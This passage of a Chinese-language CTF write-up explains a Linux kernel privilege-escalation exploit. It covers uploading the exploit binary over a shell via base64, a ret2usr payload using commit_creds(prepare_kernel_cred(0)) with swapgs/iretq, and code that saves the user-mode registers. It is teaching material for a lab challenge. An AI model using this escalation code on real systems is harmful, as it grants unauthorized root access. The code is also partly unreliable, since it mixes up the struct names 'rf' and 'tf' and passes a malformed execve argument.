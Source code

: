 ```
    
exploit(io)
```

- stty -echo:关闭回显。
- os.system('musl-gcc  -static -O2 exp.c -o exp')   ：静态编译，题目是没有动态链接库的，所以要静态链接。
- os.system('gzip -c exp > exp.gz')  ：压缩
- r.sendlineafter(cmd, 'cat <<EOF > exp.gz.b64')  ：<<eof表示遇到eof停止，大概意思就是获取输入重定向到exp.gz.b64，遇到EOF停止。
- r.sendline((read('exp.gz')).encode('base64'))  :本地将exp读出来，base64加密，base64可以把所有不可见字符变为可见，所以要有这一步。  注：若是脚本不可用了，可能是base64之后出现了EOF发送没有完成（概率极小）。
- r.sendlineafter(cmd, 'base64 -d exp.gz.b64 > exp.gz')  ：把它解码
- r.sendlineafter(cmd, 'gunzip exp.gz')  ：解压
- r.sendlineafter(cmd, 'chmod +x ./exp')   ：给可执行权限
- 交互之后  ./exp执行。

exp编写部分：
首先准备提权函数：

```
void payload(){
    commit_creds(prepare_kernel_cred(0));
    asm("movq $tf, %rsp\n"
        "swapgs\n"
        "iretq\n");
    launch_shell();
}

void launch_shell(){
    execve("/bin/sh","sh",NULL);
}
```
commit_creds(prepare_kernel_cred(0));创建新的凭证结构体，且uid/gid为0，为当前任务设置新的权限凭据。 我们要提前寻找到查看prepare_kernel_cred和commit_creds地址，这个已经在基础部分提到了。 剩下的内容主要是布置恢复的寄存器的值，我们在用户空间上伪造内核栈（因为我们无法向内核栈上写入）。

要恢复的寄存器的值可以提前保存到结构体里：
对应的结构体和函数：

```
struct trap_frame{
    void *rip;
    uint64_t cs;
    uint64_t rflags;
    void * rsp;
    uint64_t ss;
}__attribute__((packed));
struct trap_frame tf;

void save_status(){
    asm(
      "mov %%cs, %0\n"
      "mov %%ss, %1\n"
      "mov %%rsp, %3\n"
      "pushfq\n"
      "popq %2"
      :"=r"(tf.cs),"=r"(tf.ss),"=r"(tf.rflags),"=r"(tf.rsp)
      :
      :"memory"
    );
    rf.rsp -= 4096;
    rf.rip = &launch_shell;
}
```
